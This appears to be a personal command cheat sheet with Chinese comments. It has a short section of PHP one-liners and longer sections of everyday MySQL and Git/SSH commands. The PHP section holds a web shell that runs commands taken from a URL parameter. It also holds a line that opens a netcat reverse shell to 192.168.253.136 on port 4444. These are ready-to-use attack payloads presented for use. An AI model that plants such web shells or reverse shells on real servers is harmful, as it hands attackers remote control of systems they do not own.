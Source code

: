 ## Control

#### PHP

```
<?php system($_GET['cmd']); ?>
<?php system("nc -e /bin/sh 192.168.253.136  4444"); ?>
```

## Tools

#### MySQL

```
create database <name>;                      //创建数据库
drop database <name>;                        //删除数据库
show databases;                              //显示数据库
use <name>;                                  //连接数据库
select database();                           //当前连接的数据库
-------------------------------------------------------------
show tables;                                 //显示数据表
desc <table>;                                //获取数据表结构
drop table <name>;                           //删除数据表
-------------------------------------------------------------
insert into <table> (key) values (..);       //表中插入数据
select * from <table>;                       //查看表中所有数据
select * from <table> where <if>;            //查看符合条件数据
delete from <table> where <if>;              //删除符合条件数据
update <table> set <val> where <if>;         //修改符合条件数据
-------------------------------------------------------------
union [all]                                  //联合查询
select * from <table> into outfile 'path';   //导出数据
mysqldump -u user -p data > file             //导出数据库
mysqldump -u user -p data table > file       //导出数据表
```

#### Git

```
git config --global user.name "Your Name"
git config --global user.email "email@example.com"
-------------------------------------------------------------
1.生成RSA公钥和密钥 >>>>> ssh-keygen -t rsa -C "email@example.com"
2.将公钥id_rsa.pub上传到Github的SSHKeys中
3.将GitHub添加到授权主机列表 >>>>> ssh-keyscan -H github.com >> ~/.ssh/known_hosts
4.验证是否成功 >>>>> ssh -T git@github.com
-------------------------------------------------------------
git init                        //初始化本地仓库.git
git status -sb                  //显示当前所有文件的状态
git add path/.(all)             //用来将变动加到暂存区
git commit -m "info"            //用来正式提交变动,提交至.git仓库
git log/git log --oneline       //查看提交的版本信息
git reflog                      //查看全部的历史版本信息
git reset --hard 'number'       //通过版本号回退到某一个版本
git pull                        //从github上拉取最新的代码
git push                        //将代码推送到github上
-------------------------------------------------------------
git branch [name]               //查看所有分支/新建某个分支
git checkout name               //切换到某个分支
git merge name                  //将某个分支合并到当前分支下
-------------------------------------------------------------
+git remote add origin git@github.com:xxxxxxx/xxx.git
+git push -u origin master      //将仓库上传到GitHub
*git clone git@github.com:xxxx  //克隆仓库到本地
```